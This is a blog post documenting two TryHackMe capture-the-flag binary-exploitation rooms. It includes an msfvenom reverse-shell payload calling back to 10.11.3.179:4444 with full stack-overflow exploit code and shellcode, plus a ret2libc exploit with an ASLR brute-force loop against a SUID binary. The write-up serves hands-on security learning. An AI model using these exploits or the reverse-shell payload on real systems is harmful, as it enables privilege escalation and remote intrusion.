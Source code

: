 ```yaml
---
layout: post
title:  "Tryhackme Day Eight"
date:   2020-07-08 20:05:48 +0100
categories: pwn
---
```


Here is day eight of the 30 days of pwn challenge. Today we will be looking at some more binexp machines on TryHackMe: [Binex](https://tryhackme.com/room/binex) and [Jigsaw](https://tryhackme.com/room/jigsaw). I have no idea what sort of buffer overflow to expect from these boxes, but I will try to work through them anyway.


## Binex
In this box there is a SUID binary name "bof" that we can exploit.

This exploit is just a basic buffer overflow executing our payload from the stack. The methods used are the same as before, except this time we have a huge buffer to play with and can pick out any address we have written to (pretty much) to be able to jump to our nop slide and our shellcode.


Generating msfvenom payload:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.179 LPORT=4444 -b "\x00" -f python
```
First attempt crashed with the payload:
```
payload = nop_slide * (offset - shellcode_len - 100) + buf + address
```
My assumption for this is that there was nothing between payload and the initial rip address so I changed the payload to allow a gap of 100 A's between the payload and the initial rip address.

After this our shell is stable and we have beaten the challenge.
### Exploit Code
```
import struct

offset = 616
nop_slide = "\x90"
address = struct.pack("<Q",0x7fffffffe330)
shellcode_len = 119
buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x9b\xa8\x82\x51\xd6\x2c\x53"
buf += b"\xc3\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\xf1\x81\xda\xc8\xbc\x2e\x0c\xa9\x9a\xf6\x8d\x54\x9e"
buf += b"\xbb\x1b\x7a\x99\xa8\x93\x0d\xdc\x27\x50\x70\xca\xe0"
buf += b"\x0b\xb7\xbc\x3c\x09\xa9\xb1\xf0\x8d\x54\xbc\x2f\x0d"
buf += b"\x8b\x64\x66\xe8\x70\x8e\x23\x56\xb6\x6d\xc2\xb9\x09"
buf += b"\x4f\x64\xe8\xec\xf9\xc1\xec\x7e\xa5\x44\x53\x90\xd3"
buf += b"\x21\x65\x03\x81\x64\xda\x25\x94\xad\x82\x51\xd6\x2c"
buf += b"\x53\xc3"

payload = nop_slide * (offset - shellcode_len - 100) + buf + 'A' * 100 + address

print(payload)
```

## Jigsaw
In this box we have a binary named game3 that we need to exploit (it's SUID so we assumingly want to spawn a shell from this.)
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Is ASLR enabled?
```
cat /proc/sys/kernel/randomize_va_space
2
```

NX and aslr is enabled so we will need to do some kind of attack to bypass this.

From basic fuzzing we find the EIP overwrite offset to be 76
```
msf-pattern_offset -l 100 -q c5Ac
[*] Exact match at offset 76
```
Now we can start getting addresses for a ret2libc attack.

Finding libc base:
```
ldd /bin/game3
```

Finding System and exit addresses
```
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
```
Finding /bin/sh offset
```
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

### Exploit Code
```
import struct
from subprocess import call

libc_base = 0xb75c4000
system = struct.pack("<I",0x00040310 + libc_base)
exit   = struct.pack("<I",0x00033260 + libc_base)
bin_sh = struct.pack("<I",0x00162d4c  + libc_base)

offset = "A" * 76

payload = offset + system + exit + bin_sh

# Run the payload multiple times due to aslr
i = 0
while (i < 512):
	print("Trying " + str(i))
	print(payload)
	i = i + 1
	ret = call(["/bin/game3", payload])
```

Well, I really need to start looking for another learning platform the push the knowledge forward. The past few days have been going over simple extremely simple buffer overflows (which is good revision to solidify the knowledge) and it could be more beneficial to find something more challenging (like heap! :[ ). 

I looked through the other pwn challenges on TryHackMe, but it seemed like a lot of steps to reach the pwn and it involved nothing knew from what I could tell.
